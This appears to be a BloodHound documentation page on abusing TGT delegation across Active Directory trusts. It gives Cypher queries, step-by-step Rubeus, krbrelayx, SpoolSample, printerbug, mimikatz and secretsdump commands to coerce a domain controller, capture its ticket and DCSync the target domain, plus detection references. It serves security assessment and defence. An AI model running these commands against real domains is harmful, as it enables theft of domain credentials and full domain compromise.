 ---
title: AbuseTGTDelegation
description: The trust from the target node domain to the source node domain has TGT delegation enabled. When a resource in the source node domain is configured with unconstrained delegation, principals from the target node domain will automatically forward their Ticket Granting Ticket (TGT) to that resource upon access.
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


Abuse Info
----------

TGT delegation allows an attacker to capture TGTs of privileged users or computers in the target domain when they authenticate against a system configured with unconstrained delegation.

A common attack method involves the attacker logging into a DC of the source domain and coercing a DC of the target domain. Since DCs have unconstrained delegation enabled by default, this grants the attacker a TGT for a target domain DC, which can then be used to perform a DCSync attack on the target domain. This guide details that version of the attack.

Alternatively, attackers can target other privileged computers or users besides DCs.

The attack will fail if the target is a member of Protected Users or is marked as not trusted for delegation, as their TGTs will not be sent to hosts with unconstrained delegation. You can identify all protected principals using the following Cypher query in BloodHound:

```cypher
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

Attackers can also exploit non-DC hosts or users in the source domain with unconstrained delegation enabled. To find all non-DC principals with unconstrained delegation in BloodHound, run:

```cypher
MATCH (n:Base)
WHERE n.unconstraineddelegation = TRUE AND NOT (n)-[:DCFor]->()
RETURN n
```

## Attack

**Step 1: Start Monitoring for TGTs**

Windows:

Log into a DC of the source domain and open a command prompt as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:targetdc.domain.local /interval:5 /nowrap
```

Linux:

Obtain credentials for a computer or user with unconstrained delegation.

Start monitoring for incoming TGTs using krbrelayx.py with the credentials of the unconstrained delegation account:

```bash
krbrelayx.py -aesKey 9ff86898afa70f5f7b9f2bf16320cb38edb2639409e1bc441ac417fac1fed5ab
```

**Step 2: Coerce the Target DC**

The printer bug is abused in this example. If the Print Spooler service is disabled on the target host, alternative coercion techniques must be used. See "Windows Coerced Authentication Methods" under References for details.

To coerce the target DC, Authenticated Users access is required in the target domain. If the trust relationship is bidirectional, all principals in the source domain have this access by default. If not, coercion must be executed as a principal from the target forest. Attackers can obtain such a session using the trust account attack. See "SID Filter as a Security Boundary Between Domains? (Part 7) - Trust Account Attack" under References for details.

Windows:

From any host in the domain, coerce the target DC using SpoolSample:

```bash
SpoolSample.exe targetdc.domain.local compromiseddc.otherdomain.local
```

Rubeus will print the DC TGT as soon as it is received.

Linux:

Coerce the target DC using printerbug.py:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised DC IP>
```

krbrelayx.py will save the received TGT to disk.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync the Target Domain**

Windows:

Use Mimikatz to DCSync the target domain from the machine where the DC TGT was injected:

```bash
lsadump::dcsync /domain:domain.local /user:DOMAIN\Administrator
```

Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

Opsec Considerations
----------

The attack can be detected by correlating Windows security events from the attacker-controlled host and the target. See the reference "Hunting in Active Directory: Unconstrained Delegation & Forests Trusts" for details.

References
----------

* [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
* [SID filter as security boundary between domains? (Part 7) - Trust account attack - from trusting to trusted](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)
* [“Relaying” Kerberos - Having fun with unconstrained delegation](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
* [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [krbrelayx.py](https://github.com/dirkjanm/krbrelayx/)
* [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
* [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
* [Updates to TGT delegation across incoming trusts in Windows Server](https://support.microsoft.com/en-us/topic/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server-1a6632ac-1599-0a7c-550a-a754796c291e)
* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))
